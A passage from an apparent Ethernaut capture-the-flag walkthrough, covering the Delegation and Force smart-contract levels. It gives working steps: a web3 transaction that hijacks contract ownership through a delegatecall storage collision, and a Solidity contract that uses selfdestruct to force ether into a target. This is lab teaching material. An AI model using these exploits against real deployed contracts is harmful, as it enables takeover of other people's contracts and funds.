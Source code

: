 To solve this level it is essential that you know how the low level `delegatecall()` works. You can refer to [offical documentation](https://solidity-by-example.org/delegatecall/) of solidity or you can go through this [blog](https://medium.com/coinmonks/delegatecall-calling-another-contract-function-in-solidity-b579f804178c). A delegatecall calls functions of another contract but keep the context(including storage) of the calling contract. Notice that owner storage variable of **Delegate** and that of **Delegation** have the same slot(slot 0)of the storage memory. So passing the signature of the `pwn()` of Delegate to the delegate call in the fallback of Delegation contract will do the job for us.

```solidity
> web3.eth.abi.encodeFunctionSignature("pwn()")
< '0xdd365b8b'

> await web3.eth.sendTransaction({from:"0x136801a295932bEcE62ef615bEFC3DE0259D565F",
 data:"0xdd365b8b", to:"0x9a54baB051D444c9169A863d6acb1B368317D66f"})

> await contract.owner()
< '0x136801a295932bEcE62ef615bEFC3DE0259D565F'
```

# 7. Force

The code of the contract is not given, though from hint 1 we can interpret that there must be a payable `fallback()` implemented in **Force** which reverts if you send non-zero ether. All you need to know to solve this level is the `selfdestruct()`. When a contract self destroys itself all the balance of the contract is transferred to the address given as an input to the selfdestruct function. Let's write a contract with a function implementing selfdestruct and pass the address of the given contract to it. Don’t forget to transfer some ether to the contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Test {
    address payable public owner;

    constructor() public {
        owner = msg.sender;
    }

    function selfDestroMe(address attackingContractAddress) public payable {
        address payable addr = payable(attackingContractAddress);
        selfdestruct(addr);
    }

    receive() external payable {}
}
```

# 8. Vault
